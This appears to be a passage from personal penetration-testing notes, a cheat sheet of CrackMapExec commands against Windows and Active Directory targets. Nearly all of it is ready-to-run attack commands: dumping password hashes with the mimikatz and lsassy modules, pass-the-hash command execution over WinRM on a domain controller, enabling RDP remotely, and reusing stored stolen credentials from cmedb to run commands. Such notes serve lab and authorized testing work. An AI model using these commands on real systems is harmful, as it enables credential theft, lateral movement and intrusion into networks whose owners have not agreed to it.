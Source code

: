 #### 20 SwisArmy CrackMapExec Modules

```bash - kali
crackmapexec smb -L
```

Dump hashes with mimikatz module:
```bash - kali
sudo crackmapexec smb $TARGET -u $USER -p $PASSWORD -M mimikatz
```

```bash - kali
crackmapexec winrm $DOMAIN_CONTROLLER_IP -u $USER -H $HASH -X 'whomai /all'
```

Dump hashes with lsassy module:
```bash - kali
sudo crackmapexec smb $TARGET -u $USER -p $PASSWORD  -M lsassy
```

```bash - kali
crackmapexec winrm $DOMAIN_CONTROLLER_IP -u $USER -H $HASH -X 'whomai /all'
```

Enable RDP:
```bash - kali
sudo crackmapexec smb $TARGET -u $USER -p $PASSWORD -M rdp -o ACTION=enable
```


#### 21 SwisArmy CrackMapExec CMEDB
```bash - kali
sudo cmedb
```

```bash - kali
help
```

```bash - kali
proto smb
```

```bash - kali
help
```

```bash - kali
creds
```

All dumped creds will be displayed here.  Notice that each row has a Cred ID, which can be used in the CrackMapExec commands:

```bash - kali
sudo crackmapexec smb $TARGET -id 4
```

```bash - kali
sudo crackmapexec smb $TARGET -id 4 -X 'whoami'
```

#### 22 SwisArmy BloodHound Installation

[[8._BloodHound]]

